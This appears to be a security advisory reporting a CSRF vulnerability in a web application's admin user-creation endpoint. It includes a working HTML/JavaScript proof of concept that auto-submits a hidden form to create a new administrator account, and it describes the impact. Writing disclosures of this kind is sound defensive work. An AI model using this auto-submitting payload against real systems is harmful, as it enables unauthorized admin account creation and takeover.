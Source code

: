 ### 1. **Summary**

A Cross-Site Request Forgery (CSRF) vulnerability has been identified in the admin panel of the application, specifically on the user's creation page. An attacker can exploit this vulnerability to create a new administrator account with full privileges by submitting a specially crafted request to the vulnerable endpoint.

---

### 2. **Vulnerability Description**

CSRF vulnerabilities occur when an attacker tricks an authenticated user into submitting an unwanted request on their behalf. In this case, an attacker can create a new user with admin privileges without the user's consent.

#### Details of the vulnerability:

- The vulnerable endpoint is located at `/sms/classes/Users.php?f=save`.
- The user creation form does not properly validate requests, leaving it open to CSRF attacks.
- The attacker can craft a malicious request and trick the victim (admin user) into executing it.

By exploiting this CSRF vulnerability, an attacker can create a new admin account with full privileges, potentially compromising the security of the entire system.

---

### 3. **Proof of Concept (PoC)**

Below is the PoC that demonstrates the CSRF vulnerability. The attacker can host the following HTML page on their server or send it to the targeted admin user. When the admin user interacts with the page (e.g., clicks a button), the attacker’s script will create a new admin account without the user’s knowledge.


```
<html>
  <body>
    <form action="http://192.168.211.130/sms/classes/Users.php?f=save" method="POST">
      <input type="hidden" name="id" value="" />
      <input type="hidden" name="firstname" value="John" />
      <input type="hidden" name="lastname" value="Doe" />
      <input type="hidden" name="username" value="john" />
      <input type="hidden" name="password" value="Password" />
      <input type="hidden" name="type" value="1" />
      <input type="hidden" name="img" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- **Description of the Attack**:  
    The attacker uses JavaScript to submit a POST request with a malicious payload to the vulnerable user creation endpoint. This request contains a new user’s data, including the `type` parameter set to `1` (indicating an admin account).  
    The attack will only succeed if the admin user is logged in and unaware of the attack.
    
#### **Screenshot of the Newly Created Admin Account**

_The following screenshot demonstrates the result of the CSRF attack, showing the new admin account created by the attacker:
![1]()


### 4. **Impact**

If successfully exploited, this CSRF vulnerability can allow an attacker to:

- Create a new admin account.
- Gain full access to the system and its data.
- Potentially escalate the attack to compromise the entire infrastructure, depending on the privileges of the created admin account.
